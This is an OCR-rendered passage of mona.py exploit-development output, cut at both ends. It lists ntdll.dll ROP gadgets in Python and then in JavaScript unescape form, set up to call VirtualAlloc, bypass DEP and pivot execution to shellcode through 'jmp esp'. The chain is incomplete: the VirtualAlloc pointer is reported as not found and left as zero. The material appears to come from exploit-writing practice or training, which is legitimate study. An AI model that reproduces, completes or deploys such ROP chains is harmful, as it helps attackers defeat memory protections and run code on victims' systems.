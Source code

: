 	0x77695aca, # POP EBX # RETN [ntdll.dll] ** REBASED ** ASLR

	0x00000001, # 0x00000001-> ebx

	0x776a7599, # POP EDX # RETN [ntdll.dll] ** REBASED ** ASLR

	0x00001000, # 0x00001000-> edx

	0x7772d241, # POP ECX # RETN [ntdll.dll] ** REBASED ** ASLR

	0x00000040, # 0x00000040-> ecx

	0x77695399, # POP EDI # RETN [ntdll.dll] ** REBASED ** ASLR

	0x77665922, # RETN (ROP NOP) [ntdll.dll] ** REBASED ** ASLR

	0x77703e9e, # POP ESI # RETN [ntdll.dll] ** REBASED ** ASLR

	0x77662065, # JMP [EAX] [ntdll.dll]

	0x776fa30c, # POP EAX # RETN [ntdll.dll] ** REBASED ** ASLR

	0x00000000, # [-] Unable to find ptr to &VirtualAlloc()

	0x77661052, # PUSHAD # RETN [ntdll.dll] ** REBASED ** ASLR

	0x776be871, # ptr to 'jmp esp' [ntdll.dll] ** REBASED ** ASLR

	]

	return ''.join(struct.pack('<I', _) for _ in rop_gadgets)

	rop_chain = create_rop_chain()

	*** [ JavaScript ] ***

	//rop chain generated with mona.py - www.corelan.be

	rop_gadgets = unescape(

	"%uc1f0%u7772" + // 0x7772c1f0 : ,# POP EBP # RETN [ntdll.dll] ** REBASED
	** ASLR

	"%uc1f0%u7772" + // 0x7772c1f0 : ,# skip 4 bytes [ntdll.dll] ** REBASED **
	ASLR

	"%u5aca%u7769" + // 0x77695aca : ,# POP EBX # RETN [ntdll.dll] ** REBASED
	** ASLR

	"%u0001%u0000" + // 0x00000001 : ,# 0x00000001-> ebx

	"%u7599%u776a" + // 0x776a7599 : ,# POP EDX # RETN [ntdll.dll] ** REBASED
	** ASLR

	"%u1000%u0000" + // 0x00001000 : ,# 0x00001000-> edx

	"%ud241%u7772" + // 0x7772d241 : ,# POP ECX # RETN [ntdll.dll] ** REBASED
	** ASLR

	"%u0040%u0000" + // 0x00000040 : ,# 0x00000040-> ecx

	"%u5399%u7769" + // 0x77695399 : ,# POP EDI # RETN [ntdll.dll] ** REBASED
	** ASLR
